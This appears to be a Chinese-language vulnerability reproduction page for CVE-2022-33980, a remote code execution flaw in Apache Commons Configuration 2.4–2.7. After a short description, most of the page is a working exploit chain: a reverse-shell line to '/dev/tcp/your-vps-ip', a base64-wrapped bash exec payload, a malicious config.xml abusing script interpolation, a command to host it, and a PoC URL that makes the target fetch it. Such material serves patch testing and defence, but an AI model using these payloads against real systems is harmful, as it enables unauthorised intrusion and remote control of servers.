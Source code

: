 # Apache Commons Configuration 远程命令执行漏洞 CVE-2022-33980

## 漏洞描述

Apache Commons Configuration 是 Apache 基金会下的一个开源项目组件。它提供了一种通用的方式，让 Java 开发者可以使用统一的接口读取不同类型的配置文件。

该漏洞是由于 Apache Commons Configuration 提供的 Configuration 变量解释功能存在缺陷，攻击者可利用该漏洞在特定情况下，构造恶意数据执行远程代码。

## 漏洞影响

```
2.4 <= Apache Commons Configuration <=2.7
```

## 漏洞复现

java payload：

```
# bash -i >& /dev/tcp/your-vps-ip/port 0>&1
bash -c {echo,<YOUR_PAYLOAD_HERE>}|{base64,-d}|{bash,-i}
```

config.xml：

```
<?xml version="1.0" encoding="ISO-8859-1" ?>
<configuration>
        <path>${script:js:java.lang.Runtime.getRuntime().exec("bash -c {echo,<YOUR_PAYLOAD_HERE>}|{base64,-d}|{bash,-i}")}</path>
</configuration>
```

vps开启8888端口托管config.xml：

```
python -m http.server 8888
```

poc：

```
http://vuln-ip/Url?url=http://your-vps-ip:8888/config.xml&data=path
```

![](images/Apache%20Commons%20Configuration%20远程命令执行漏洞%20CVE-2022-33980/image-20240126181851899.png)
